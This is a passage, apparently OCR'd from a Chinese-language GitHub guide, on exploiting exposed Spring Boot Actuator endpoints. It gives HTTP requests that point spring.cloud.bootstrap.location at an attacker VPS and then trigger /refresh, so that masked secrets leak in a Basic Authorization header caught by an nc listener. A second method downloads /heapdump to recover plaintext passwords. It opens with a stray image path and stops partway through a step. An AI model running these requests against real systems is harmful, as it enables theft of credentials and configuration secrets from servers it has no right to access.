 ```
POST /actuator/env
Content-Type: application/json

{"name":"spring.cloud.bootstrap.location","value":"http://your-vps-ip:port/?=${属性}"}
```



**步骤四： 刷新配置**

spring 1.x

```
POST /refresh
Content-Type: application/x-www-form-urlencoded

```

spring 2.x

```
POST /actuator/refresh
Content-Type: application/json

```



**步骤五： 解码属性值**

正常的话，此时 nc 监听的服务器会收到目标发来的请求，其中包含类似如下 `Authorization` 头内容：

```
Authorization: Basic dmFsdWU6MTIzNDU2
```

将其中的 `dmFsdWU6MTIzNDU2`部分使用 base64 解码，即可获得类似明文值 `value:123456`，其中的 `123456` 即是目标星号 * 脱敏前的属性值明文。



##### 方法三

###### 利用条件

- 可正常 GET 请求目标 `/heapdump` 或 `/actuator/heapdump` 接口

  

###### 利用方法

**步骤一:确定属性名**

访问目标网站的/env或/actuator/env端点接口，全局搜索星号(*************)，通过被星号遮掩的属性值找到想要的目标属性



**步骤二:下载 jvm heap 信息**

> 下载的 heapdump 文件大小通常在 50M—500M 之间，有时候也可能会大于 2G

`GET` 请求目标的 `/heapdump` 或 `/actuator/heapdump` 接口，下载应用实时的 JVM 堆信息



**步骤三:使用 MAT 获得 jvm heap 中的密码明文**
